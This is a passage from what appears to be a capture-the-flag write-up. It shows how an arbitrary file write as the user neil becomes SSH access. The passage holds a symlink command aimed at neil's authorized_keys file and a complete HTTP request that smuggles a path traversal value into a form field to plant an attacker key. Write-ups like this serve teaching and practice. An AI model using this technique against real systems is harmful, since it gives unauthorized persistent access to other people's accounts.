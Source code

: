 Within the machine, it creates this file with `neil` permissions:

<figure><img src="../../.gitbook/assets/image (467) (2).png" alt=""><figcaption></figcaption></figure>

This means we have an arbitrary file write as the `neil` user, and we can try to drop our SSH public key into his `authorized_keys` folder. I tried to directly write it to that folder but it doesn't work, and I think we have to maintain the `.txt` extension.

As such, we can create a symlink between `testkey.txt` and the `authorized_keys` folder using:

```
ln -s /home/neil/.ssh/authorized_keys key.txt
```

Afterwards, we can send this request to add our SSH key:

```http
POST /convert HTTP/1.1
Host: 127.0.0.1:3001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------292034445114065400543811074751
Content-Length: 791
Origin: http://127.0.0.1:3001
Connection: close
Referer: http://127.0.0.1:3001/
Cookie: session=eyJmbGFzaE1lc3NhZ2UiOnt9fQ==; session.sig=unIt4GDQSCUqkXd9r4WU_geYMnI
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

-----------------------------292034445114065400543811074751
Content-Disposition: form-data; name="convertFile"; filename="key.html"
Content-Type: application/vnd.ms-publisher

<KEY>
-----------------------------292034445114065400543811074751
Content-Disposition: form-data; name="outputType"

../../../../../../../tmp/testssh/key.txt
-----------------------------292034445114065400543811074751--
```

Then we can `ssh` in as `neil`.&#x20;
